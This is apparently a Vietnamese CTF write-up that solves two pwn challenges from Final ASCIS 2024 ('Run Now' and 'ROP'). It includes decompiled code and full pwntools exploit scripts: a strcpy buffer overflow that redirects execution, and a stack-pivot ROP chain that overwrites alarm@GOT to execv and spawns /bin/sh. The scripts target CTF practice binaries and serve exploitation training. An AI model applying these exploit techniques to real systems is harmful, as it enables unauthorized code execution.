





Sau một thời gian dài bận rộn với thi thì lần này mình quyết định all-in và bắt đầu với series `Road to Final` của mình, series này sẽ là nơi mình thử thách bản thân mình để giải những bài khó trong các giải lớn và với mục đích cuối cùng là `Final ASCIS`. Và đây sẽ là post đầu tiên của series này, post này sẽ là write-up các challenges pwn trong Final ASCIS 2024, mình chỉ có thể giải được 2 bài thôi vì mình chưa học heap nên bài `Bug Bounty` nhìn hơi ngộp và không biết bắt đầu từ đâu.

# Run Now

## Challenge Description


## Reverse Engineering

```sh
[*] '/home/alter/lab/Practice/ASCIS2024/Run_Now/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    Stripped:   No
```

Bắt đầu với việc sử dụng `checksec` thì mình nhận thấy rằng, đây là một binary không có Canary, và PIE đã tắt, điều này giúp chúng ta làm dễ dàng hơn do không cần quan tâm mấy đến việc địa chỉ của binary động. Đào sâu hơn vào phân tích `pseudo-code`:

```c
int __fastcall main(int argc, const char **argv, const char **envp)
{
  unsigned int seed; // eax
  int n4; // [rsp+Ch] [rbp-84h] BYREF
  char s[128]; // [rsp+10h] [rbp-80h] BYREF

  setup(argc, argv, envp);
  seed = time(0LL);
  srand(seed);
  while ( 1 )
  {
    puts("\nQuantum Teleporter Menu:");
    puts("1. Enter coordinates");
    puts("2. View current coordinates");
    puts("3. Initiate teleportation");
    puts("4. Exit");
    printf("Enter your choice: ");
    __isoc99_scanf("%d", &n4);
    getchar();
    if ( n4 == 4 )
      break;
    if ( n4 > 4 )
      goto LABEL_12;
    switch ( n4 )
    {
      case 3:
        teleport();
        break;
      case 1:
        printf("Enter quantum coordinates: ");
        fgets(s, 128, stdin);
        quantum_entangle(s);
        break;
      case 2:
        print_coordinates();
        break;
      default:
LABEL_12:
        puts("Invalid choice. Please try again.");
        break;
    }
  }
  puts("Exiting Quantum Teleporter. Goodbye!");
  return 0;
}
```

Như ta có thể thấy, về tổng quan thì chương trình sẽ yêu cầu ta nhập các `choice` sau đó nhảy đến `choice` mà ta đã chọn, để ý ở case 1:

```c
      case 1:
        printf("Enter quantum coordinates: ");
        fgets(s, 128, stdin);
        quantum_entangle(s);
        break;
```
```c
char *__fastcall quantum_entangle(const char *src)
{
  char dest[64]; // [rsp+10h] [rbp-40h] BYREF

  return strcpy(dest, src);
}
```

Có thể thấy trong `quantum_entangle` nó sử dụng `strcpy` để copy data ta input vào với số lượng tối đa là 64 bytes. Và kiểm tra kĩ hơn ở trong GDB:


Ta có thể thấy stack frame của `quantum_entangle` không quá lớn và offset từ điểm nó copy vào đến `saved rip` là 72. Vì thế mặc dù dest[64], nhưng đặc điểm của hàm `strcpy` là copy dữ liệu mà không quan tâm xem nó sẽ copy bao nhiêu, nên vì thế mà gây ra lỗi `Buffer Overflow`.

## Exploit Development

Vì ta đã biết được lỗi là gì và binary này cũng không có những lớp bảo mật để chống `Buffer Overflow` nên ta sẽ dể dàng kiểm soát được `saved rip` của `quantum_entangle` và thay đổi nó thành địa chỉ của `secret_lab`, và khi `quantum_entangle` nó sẽ return vào `secret_lab`, việc tiếp theo ta làm là chỉ cần nhập `hardcode` đã có:

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from time import sleep

context.log_level = 'debug'
exe = context.binary = ELF('./chall', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''


b*main+250
# b*0x0000000000401548
c
'''.format(**locals())

p = init()

# ==================== EXPLOIT ====================


def choice(option):

    sla(b'choice: ', f'{option}'.encode())


def exploit():

    choice(1)
    sl(b'A' * 72 + p64(exe.sym.secret_lab+1))
    sl(b'qu4ntumR3ality')

    interactive()

if __name__ == '__main__':
    exploit()
```



# ROP

## Challenge Description



## Reverse Engineering

```sh
[*] '/home/alter/lab/Practice/ASCIS2024/ROP/chall'
    Arch:       amd64-64-little
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
```

Kết quả của `checksec` không có gì mấy đặc biệt và cũng như bài trên nên mình sẽ skip qua phần này (do mình lười...). Tiếp tục đến với IDA:

```c
unsigned int setup()
{
  setbuf(stdin, 0LL);
  setbuf(stdout, 0LL);
  setbuf(stderr, 0LL);
  signal(14, alarm_handler);
  return alarm(0x14u);
}
```

```c
ssize_t vuln()
{
  __int16 buf[16]; // [rsp+0h] [rbp-20h] BYREF

  buf[0] = -15521;
  return read(0, buf, 0x48uLL);
}
```

Chương trình khá đơn giản, chỉ gói gọn 2 hàm `setup` và `vuln`, nhưng điều khó ở đây là không có nơi để ta `leak` được address mặc dù ta có gadget `pop rdi`, nên ta sẽ chuyển qua phương án khác. Và ở đây mình sẽ sử dụng `Stack Pivot` để giải quyết bài này, về cơ bản thì ta phải làm vậy do đó là cách cuối cùng rồi...Nhưng câu hỏi đặt ra là ta `Stack Pivot` ở đâu và kết quả khi làm xong sẽ được gì? Thì lúc này ta sẽ nhìn vào `setup()` với `alarm@GOT`, thì function này khi ta kiểm tra trong GDB ta sẽ thấy nó nằm trên một hàm khác rất đặc biệt đó là `execv`, khoảng cách khá xa (0xc80). Hàm `execv` này đặc biệt ở chổ nó chỉ cần 2 arguments `rdi` và `rsi`, vầ với điều kiện hiện tại là ta chỉ có thể sử dụng kiểm soát được `rdi` thông qua `pop rdi; ret` và `rsi` thông qua `read gadget` lấy trong chương trình của hàm `vuln`.


## Exploit Development

Như vậy với ý tưởng như trên ta có thể sử dụng `read gadget` để làm cho chương trình thực thi lại phần chức năng đó thêm một lần nữa, và với việc ta có thể kiểm soát được `saved rbp` ta sẽ làm cho nó viết ở bất cứ nơi đâu mà ta muốn. Và những gì mình muốn sẽ là:

- Overwrite `alarm@GOT` -> `execv`
- Setup các arugments cho `execv`

### Overwrite `alarm@GOT`

Vậy payload ban đầu của ta sẽ là
```py
    pop_rdi = 0x401247
    read_gadget = 0x401249
    rw_section = 0x404100

    pl = flat(
        b'A' * 0x20,
        rw_section + 0x20,              # saved rbp 1
        read_gadget                     # saved rip 1
    )

    input("1st")
    sleep(0.5)
    s(pl)
```

Payload này sẽ ghi dữ liệu của lần nhập tiếp theo vào `rw_section`, và ở lần nhập tiếp theo ta sẽ thực hiện việc ghi đè 2 bytes cuối của địa chỉ chứa trong `alarm@GOT`

```py
    pl = flat(
        b'B' * 0x20
        exe.got.alarm + 0x20,          # saved rbp 2
        read_gadget                    # saved rip 2
    )

    input("2nd")
    sleep(0.5)
    s(pl)

    input("3rd")
    sleep(0.5)
    s(p16(0xd1c0))
```

Với lúc này payload của ta sẽ ghi đè 2 bytes thành `0xd1c0` tức là `execv`, và để ý sau khi nó thực thi xong và return



Nó sẽ return về một nơi không có dữ liệu và kiểm tra ở chỗ đó ta sẽ thấy


Vì thế ta cần phải ghi dữ liệu vào đây trước để khi nó return thì nó mới return được, vì vậy ta sẽ đổi payload đầu từ `rw_section + 0x20` -> `exe.got.alarm + 0x40` bằng cách này ta sẽ đảm bảo được rằng luôn có dữ liệu ở những vùng mà ta có thể kiểm soát

```py
    pl = flat(

        b'A' * 0x20,
        exe.got.alarm + 0x20 + 0x20,
        read_gadget

    )


    input("1st")
    sleep(0.5)
    s(pl)

    pl = flat(
        b'B' * 0x20,
        exe.got.alarm + 0x20,          # saved rbp 2
        read_gadget                    # saved rip 2
    )

    input("2nd")
    sleep(0.5)
    s(pl)

    input("3rd")
    sleep(0.5)
    s(p16(0xd1c0))
```

Và sau khi chạy lại



Ta sẽ thấy lúc này nó return vào một dãy kí tự `B` của ta, tức là ở đầu đoạn của payload 2, và ta chỉ cần làm là thay đổi payload 2 lại một chút để ta có thể thực hiện lần read tiếp theo, và ở lần read này sẽ là lần read mà ta setup các argument cần thiết để thực thi `execv` nên mình có thể cho nó read vào bất cứ đâu cũng được miễn là né vùng `GOT` và vùng đó phải có `rw-`

### Setup argument

Thì mình sẽ chọn `rw_section`, vì vùng này chưa có dữ liệu gì nên ta có thể read vào thoải mái

```py
    pl = flat(
        rw_section + 0x20,             # saved rbp 3
        read_gadget,                   # saved rip 3
        b'B' * 0x10,
        exe.got.alarm + 0x20,          # saved rbp 2
        read_gadget                    # saved rip 2
    )

    input("2nd")
    sleep(0.5)
    s(pl)

    input("3rd")
    sleep(0.5)
    s(p16(0xd1c0))
```

Và ở lần read cuối cùng này dữ liệu sẽ bắt đầu từ `rw_section` và việc ta cần làm là đặt chuỗi `/bin/sh` ở đầu `rw_section` và sử dụng `pop_rdi`, để setup `rdi` và call `alarm@PLT`

```py
    pl = flat(
          b'/bin/sh\0',                  # saved rbp 5
          pop_rdi,                       # saved rip 5
          rw_section,
          exe.plt.alarm,
          rw_section,                    # saved rbp 4
          read_gadget,                   # saved rip 4
    )

    input("4th")
    sleep(0.5)
    s(pl)

    input("5th")
    sleep(0.5)
    s(b'\0')
```

Và vì ASLR bật nên địa chỉ lúc nào cũng động, việc ta cần làm tiếp theo là brute 1 nibble của nó bằng cách chạy đi chạy lại nhiều lần payload với tỉ lệ `1/16` là điều hoàn toàn có thể

### Full exploit

```py
#!/usr/bin/env python3
# -*- coding: utf-8 -*-
from pwnie import *
from time import sleep
context.log_level = 'debug'
exe = context.binary = ELF('./chall_patched', checksec=False)
libc = exe.libc

def init(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe.path] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], sys.argv[2], *a, **kw)
    elif args.DOCKER:
        docker_port = sys.argv[1]
        docker_path = sys.argv[2]
        p = remote("localhost", docker_port)
        sleep(1)
        pid = process(["pgrep", "-fx", docker_path]).recvall().strip().decode()
        gdb.attach(int(pid), gdbscript=gdbscript, exe=exe.path)
        pause()
        return p
    else:
        return process([exe.path] + argv, *a, **kw)

gdbscript = '''
# b*0x000000000040125f
b*0x0000000000401261
c
'''.format(**locals())

while True:
    p = init()
    # ==================== EXPLOIT ====================

    '''
    File:     /home/alter/lab/Practice/ASCIS2024/ROP/chall
    Arch:     amd64
    RELRO:      Partial RELRO
    Stack:      No canary found
    NX:         NX enabled
    PIE:        No PIE (0x400000)
    SHSTK:      Enabled
    IBT:        Enabled
    Stripped:   No
    '''
    def exploit():

        pop_rdi = 0x401247
        read_gadget = 0x401249
        rw_section = 0x404100

        pl = flat(
            b'A' * 0x20,
            exe.got.alarm + 0x20 + 0x20,    # saved rbp 1
            read_gadget                     # saved rip 1
        )

        # input("1st")
        sleep(0.5)
        s(pl)

        # 0x404040
        pl = flat(
            rw_section + 0x20,             # saved rbp 3
            read_gadget,                   # saved rip 3
            b'B' * 0x10,
            exe.got.alarm + 0x20,          # saved rbp 2
            read_gadget                    # saved rip 2
        )

        # input("2nd")
        sleep(0.5)
        s(pl)

        # input("3rd")
        sleep(0.5)
        s(p16(0xd1c0))

        pl = flat(
            b'/bin/sh\0',                  # saved rbp 5
            pop_rdi,                       # saved rip 5
            rw_section,
            exe.plt.alarm,
            rw_section,                    # saved rbp 4
            read_gadget,                   # saved rip 4
        )

        # input("4th")
        sleep(0.5)
        s(pl)

        # input("5th")
        sleep(0.5)
        s(b'\0')

        try:
            sl(b'echo DONE!')
            ru(b'DONE!')
            return True
        except:
            p.close()
            return False

    if __name__ == '__main__':
        if exploit():
            interactive()
            break
```

## Flow graph


